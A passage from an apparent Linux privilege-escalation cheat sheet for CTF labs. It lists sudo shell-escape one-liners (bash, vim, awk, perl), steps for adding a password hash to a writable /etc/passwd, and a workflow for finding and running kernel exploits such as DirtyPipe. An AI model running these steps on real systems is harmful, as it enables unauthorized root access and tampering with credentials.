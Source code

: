 If you can run a binary as root:

```bash
sudo /bin/bash
```

If restricted:

```bash
sudo vim -c ':!/bin/sh'
sudo awk 'BEGIN {system("/bin/sh")}'
sudo perl -e 'exec "/bin/sh";'
```

If you can run scripts with `sudo`, **edit or replace** them with malicious payloads.

***

#### 3. 🧠 Exploiting Weak File Permissions

```bash
ls -la /etc/passwd
ls -la /etc/shadow
```

If `/etc/passwd` is writable:

```bash
openssl passwd -1 "password123"
# Copy the hash into /etc/passwd
```

***

#### 4. 💥 Kernel Exploits

If enumeration shows an outdated kernel:

```bash
uname -r
```

Use:

```bash
linux-exploit-suggester.sh
```

Then compile and run a matching exploit (e.g., DirtyCow, DirtyPipe, OverlayFS).

Example:

```bash
gcc exploit.c -o exploit
./exploit
```

⚠️ Always test in CTF labs, **not** production targets.

***

#### 5. 🧩 Cron Jobs & Scheduled Tasks
